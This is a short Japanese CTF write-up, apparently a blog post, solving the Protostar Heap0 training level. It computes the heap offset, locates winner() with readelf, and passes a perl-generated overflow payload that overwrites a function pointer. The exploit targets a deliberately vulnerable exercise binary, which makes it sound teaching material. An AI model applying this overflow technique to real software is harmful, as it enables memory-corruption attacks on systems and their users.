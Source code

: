 ```yaml
---
layout: post
alias: "/blog/2016/01/22/exploit-exercises-protostar-heap0/"
title: "Exploit Exercises Protostar Heap0"
date: 2016-01-22T14:09:07+09:00
tags: [ "ctf", "writeup", "exploit-exercises", "heap", "heap-overflow", "buffer-overflow" ]
---
```


いきなり難しいのでなくて、ちゃんとこのレベルから用意されてあるのはよいと思う。

## [Protostar Heap0](https://exploit-exercises.com/protostar/heap0/)

`malloc`で返されるアドレス間の距離が実行ごとに変化することはない。

``` sh
$ ./heap0 '' ''
data is at 0x9afb008, fp is at 0x9afb050
level has not been passed

$ echo $[0x9afb050 - 0x9afb008]
72

$ readelf -s heap0 | grep '\<winner\>'
    55: 08048464    20 FUNC    GLOBAL DEFAULT   14 winner

$ ./heap0 $(perl -e 'print "A"x72, "\x64\x84\x04\x08"')
data is at 0x8522008, fp is at 0x8522050
level passed
```
